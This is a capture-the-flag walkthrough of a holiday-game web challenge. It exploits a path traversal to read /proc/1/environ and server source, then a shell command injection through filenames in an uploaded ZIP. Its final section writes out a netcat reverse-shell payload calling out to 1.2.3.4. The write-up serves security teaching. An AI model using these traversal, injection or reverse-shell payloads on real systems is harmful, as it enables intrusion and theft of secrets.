



# Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!<br/>
    The tag generator is acting up.<br/>
    I feel like the issue has something to do with weird files being uploaded.<br/>
    Can you help me figure out what's wrong?<br/>


## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a [reverse shell](./o8.md#reverse-shell). We'll explore both options! :smile:


### Short solution

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:




### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.



!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test”
    cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Reviewing the code, we can see that the web application uses a `system()` call to resize the uploaded image to a specific size (line 7). Because the backend Ruby code does not filter the `filename` variable used as input to the `system()` call, we can leverage this [command injection](https://owasp.org/www-community/attacks/Command_Injection) vulnerability to execute our own code.

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will split the single `convert` command into 3 separate shell commands, nudging whatever we want to run neatly in the middle:

+ `convert -resize 800x600\\> -quality 75 'myfile';`
+ `command_to_run;`
+ `ls '.png' '#{ out_path }'`

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames untouched when unpacking an uploaded archive (line 7). Luckily for us, Jack commented out the filename validation code that would've patched this issue (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:


!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell<span id="reverse-shell"></span>"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    
